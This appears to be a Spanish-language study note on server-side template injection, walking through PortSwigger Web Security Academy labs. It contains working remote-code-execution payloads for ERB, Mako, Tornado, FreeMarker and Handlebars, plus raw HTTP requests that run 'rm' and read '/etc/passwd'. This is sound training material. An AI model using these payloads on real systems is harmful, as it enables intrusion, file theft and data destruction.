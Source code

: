 
# Server-side template injection (SSTI)

Las paginas html antes eran estaticas pero con la aparicion de frameworks como ruby on rails y librerias como reactjs. Las paginas de internet
se hicieron mas dinamicas.

> HTML tags provide static web pages only but ERB tags give us dynamic information in that HTML template.

## Template Example

```
<h1> Event Details for <%= event.name %> </h1> 
```

Un ejemplo es fb para todos los perfires renderiza los amigos de cada cuenta y existen 2 el client side rendering y server side rendering.

> A menos que ya conozca el motor de plantillas de adentro hacia afuera, leer su documentación suele ser el primer lugar para comenzar.
> Aprender la sintaxis básica es obviamente importante, junto con las funciones clave y el manejo de variables. Incluso algo tan simple como aprender a incrustar bloques de código nativo en la plantilla a veces puede conducir rápidamente a un exploit. Por ejemplo, una vez que sepa que se está utilizando el motor de plantillas Mako basado en Python, lograr la ejecución remota de código podría ser tan simple como:

***Palabra clave***: motores de plantillas comunes

```
<%
                import os
                x=os.popen('id').read()
                %>
                ${x}
                
```

# Tipos de motores de plantillas (aunque hay muchos esto solo es un ejemplo)

## ERB 

ERB es un motor de plantillas. Un motor de plantillas le permite mezclar HTML y Ruby para que pueda generar páginas web utilizando datos de su base de datos. ERB es el motor predeterminado de Rails para renderizar vistas. Nota: Rails usa una implementación llamada erubi en lugar de la clase ERB de la biblioteca estándar de Ruby.

Sintaxis example

```
<%= @user.name%>
```


## JINJA

Jinja2 is a modern day templating language for Python developers. It was made after Django's template. It is used to create HTML, XML or other markup formats that are returned to the user via an HTTP request.

Sintaxis example

```
{{user.hit_that_like}}

```

# SSTI metodologia

1. Busca reflexion de parametros ingresados por el usuario
2. enumera de que template engine se trata haciendo que el payload sea evaluado
3. explitalo rce o solo sacar informacion.

> https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

### Detect - Plaintext context( dentro de hacktricks) 

```

{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}

```

# Basic server-side template injection

Para este laboratorio primero nos damos cuenta que al probar un producto nos manda en una peticion GET que no hay stock
despues si en esa misma peticion ponemos algo cualquier cosa lo renderiza!


```
GET /?message=<%25%3d+system("rm+morale.txt")+%25> HTTP/1.1
Host: 0a9a000604434cc5c04469150063005a.web-security-academy.net
Cookie: session=9w4H3Kb9L9iMwIiijw2slP6Pt6LKHJQ0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="104"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Referer: https://0a9a000604434cc5c04469150063005a.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: es-419,es;q=0.9
Connection: close



```

Se manda la peticion al intruder y se selecciona donde estara el payload despues no dirijomos a la pestaña
Payloads -> Payloads Options y ahi pegamos las " Plaintext context" para probar a que tipo de template engine
nos enfrentamos. Tambien nos dirigimos a Options-> Reg Extract -> add y seleccionamos el div donde se refleja 
nuestro output en nuesta respuesta de la pericion GET. Inciamos el ataque y vemos que la sintaxis de ERB de ruby es
la que renderiza el 49 (7*7).

Finalmente podemos ejecutar comandos con:

```
<%= system("whoami") %> #Execute code
<%= Dir.entries('/') %> #List folder
<%= File.open('/etc/passwd').read %> #Read file

```

Borrando el archivo ( recuerda usar URL encode)


# Basic server-side template injection (code context)

Par  este  laboratorio se tiene que pensar de la siguiente mannera. Primero se va a la funcionalidad de "Preferred name"
dentro de esta se manda una parte "user.name"  que va variando segun el selelct.

1. Primero reconocemos que ahi puede haber un ssti.
2. Intentamos hacer fallar a la aplicacion para que nos de informacion user.noexist

```
"/usr/local/lib/python2.7/dist-packages/tornado/template.py"
```
3. Indentificamos que el template engine es tornado entonces vamos a trabajar con esa sintaxis.

4. Usamos la sintaxis de tornado

Cerramos el string con }} despues importamos un os y un system y el comando en la funcionalidad.


```
blog-post-author-display=user.first_name}}{% import os %}{{os.system('pwd')}}&csrf=3zrIydtzhGhCcccm3tjhQhR22U7nxYqs

```

Por ultimo mandar la solicitud desde la pagina de la funcionalidad y recargar la otra finalmente borrar el archivo y asi se resuelve.


# Server-side template injection using documentation

Este laboratorio es similar a el anterior

1. Primero iniciamos sesion e identificamos donde podria haber un ssti. En este caso identificacamos que en "Edit Template" 
Quiza podriamos inyectar algo 
2. Hacemos falla el template engine poniendo algo que no existe y ver a que nos efrentamos
3. freemarker es el template engine que al parecer nos enfrentamos
4. Inyectamos codigo y nos damod cuenta que si lo interpreta por lo tanto inyectamos comandos.

en save template usamos lo cual si ejecuta comandos y borramos el archivo 

```
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}

```


# Server-side template injection in an unknown language with a documented exploit

Para este laboratorio se ve que se refleja un mensaje que no  hay stock de ese producto

1. Se fuzzea para saber que engine template es nos damos cuenta que es "Handlebars"
2. Buscamos un exploit


importante ese exploit se debe de url encodear y se mete dentro del parametro de message pero no se debe de meter salto 
de linea para el HTTP 1.1 si no no sirver y no oimportan los espacion del script ni las nuevas lineas lo importante 
es lo anterior.

```
GET /?message=%77%72%74%7a%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%77%68%6f%61%6d%69%27%29%3b%22%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%7b%7b%2f%77%69%74%68%7d%7d HTTP/1.1
Host: 0a1f008e03b1651ac082677c00610013.web-security-academy.net
Cookie: session=Lr5Zo3qOP0uZOyPGKcQok0pCrh6Kglek

```



















